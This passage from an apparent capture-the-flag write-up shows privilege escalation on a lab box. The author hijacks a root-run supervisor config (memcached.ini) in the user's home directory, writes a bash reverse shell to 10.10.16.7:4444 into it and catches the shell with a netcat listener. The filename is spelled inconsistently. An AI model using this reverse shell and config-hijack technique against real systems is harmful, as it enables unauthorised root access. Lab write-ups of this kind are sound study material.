 ```bash
2025/09/25 22:58:02 CMD: UID=0    PID=13721  | sudo -u nobody /usr/bin/node /home/professor/memcached.js 
```

We find in our home dir a memcached.ini

```bash
[program:memcached]
command = sudo -u nobody /usr/bin/node /home/professor/memcached.js
```

This looks like the command being executed by root. Maybe it’s running the file from memcached.ini. Since memcached.ini is in our home dir, we can rename it and create a new file with its name and edit that.

```bash
mv memcached.ini new
touch memcached.ini
cat new > memcache.ini
```

Now we can edit with vi, let’s put a reverse shell:

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.7/4444 0>&1"
#Now memcache.ini looks like
[program:memcached]
command = bash -c "bash -i >& /dev/tcp/10.10.16.7/4444 0>&1"

```

Now start a listener:

```bash
nc -lnvp 4444
```

We are now root:

![image.png](lacasadepapel%20279068bbc57d8058a14ef9ab005479e3/image%2016.png)